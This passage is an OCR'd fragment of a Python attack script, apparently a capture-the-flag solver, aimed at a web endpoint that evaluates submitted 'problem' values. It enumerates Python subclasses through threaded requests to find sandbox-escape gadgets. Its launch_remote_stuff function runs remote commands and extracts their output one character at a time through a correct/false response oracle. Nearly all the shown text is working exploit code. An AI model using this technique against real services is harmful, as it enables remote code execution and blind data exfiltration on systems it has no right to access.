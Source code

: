 ```python
        while not response_ok:
            try:
                r = requests.post(target_url, headers=headers, data=data)
                response = r.text
                #log_debug(searched_class, response)
                if r.status_code != 502:
                    response_ok = True
                else:
                    time.sleep(10)
            except:
                print("   EXCEPTION!")
                time.sleep(5 * 60)
        
        if "\"correct\": true" in response:
            output += c
            #log_debug(searched_class, output)
            found_chars += 1
            char_index += 1
        elif "\"correct\": false" in response or "Server Error" in response:
            break
        time.sleep(0.5)
    
    if found_chars == len(searched_class):
        print("search python class > {} @ ''.__class__.mro()[{}].__subclasses__()[{}]".format(searched_class, mro_index, subclass_index))


def search_python_class_t(searched_class, mro_index):
    for subclass_index in range(0, 672):
        check_python_class(searched_class, mro_index, subclass_index)


def search_python_class(searched_class):
    print("search python class > {}".format(searched_class))
    for mro_index in range(0, 3):        
        _thread.start_new_thread(search_python_class_t, (searched_class, mro_index,))


def launch_remote_stuff(command_skeleton, command):
    output = ""
    print("remote command > {}".format(command))
    
    finished = False
    index = 0
    while not finished:
        
        for c in string.printable:
            data = {"problem": command_skeleton.format(command, index), "answer": "{}".format(ord(c))}
            #log_debug(command, data)
            
            response = None
            response_ok = False
            while not response_ok:
                try:
                    r = requests.post(target_url, headers=headers, data=data)
                    response = r.text
                    #log_debug(command, response)
                    if r.status_code != 502:
                        response_ok = True
                    else:
                        time.sleep(10)
                except:
```